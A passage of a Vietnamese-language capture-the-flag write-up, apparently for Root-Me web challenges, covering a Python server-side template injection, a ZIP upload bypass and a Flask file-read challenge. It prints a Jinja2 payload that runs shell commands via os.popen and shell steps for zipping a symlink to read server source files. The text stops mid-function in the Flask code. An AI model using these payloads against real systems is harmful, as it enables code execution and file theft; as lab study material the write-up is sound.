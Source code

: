 `{{ cycler.__init__.__globals__.os.popen('id').read() }}`

![image](https://hackmd.io/_uploads/SkP9w7R11e.png)

flag: `Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!`


## File upload - ZIP

![image](https://hackmd.io/_uploads/SkmHdQRykl.png)

![image](https://hackmd.io/_uploads/SycxK70kkx.png)

cho phép bạn upload một file zip và giải nén nó

![image](https://hackmd.io/_uploads/HknGK7C11g.png)

thử upload zip chưa file php nhưng bị cấm rồi

![image](https://hackmd.io/_uploads/Sk58Y7AJye.png)

quan sát ở đây mình có ý tưởng là upload 1 file symlink đến file index.php 

```
l3mnt2010@ASUSEXPERTBOOK:~/rootme/hihi/hiha/hiho$ ln -s ../../../index.php a.txt
l3mnt2010@ASUSEXPERTBOOK:~/rootme/hihi/hiha/hiho$ zip --symlinks a.zip a.
a.php  a.txt  a.zip
l3mnt2010@ASUSEXPERTBOOK:~/rootme/hihi/hiha/hiho$ zip --symlinks a.zip a.txt
  adding: a.txt (stored 0%)
l3mnt2010@ASUSEXPERTBOOK:~/rootme/hihi/hiha/hiho$
```

nhớ thêm ``--symlinks`` hoặc `-y` không là nó sẽ hiển thị file tại hệ thống của bạn đấy

![image](https://hackmd.io/_uploads/Hk7IWEA1Jx.png)


flag: `N3v3r_7rU5T_u5Er_1npU7`

## Flask - Development server

![image](https://hackmd.io/_uploads/BynAZN011e.png)


web giống với bài nào ở trên đó mình không nhớ rõ thêm chức năng search bị dính lỗi read file

![image](https://hackmd.io/_uploads/HJLAz4Cyye.png)

![image](https://hackmd.io/_uploads/r1d9QNRkyx.png)

mình mò ra theo dec đề bài

```
#!/usr/bin/env python3

from flask import Flask, request, render_template, abort

app = Flask(__name__, static_folder='static')

@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")

@app.route("/services", methods=["GET"])
def services():
    template_name = "wip"  # Default template name
    if "search" in request.args:
```
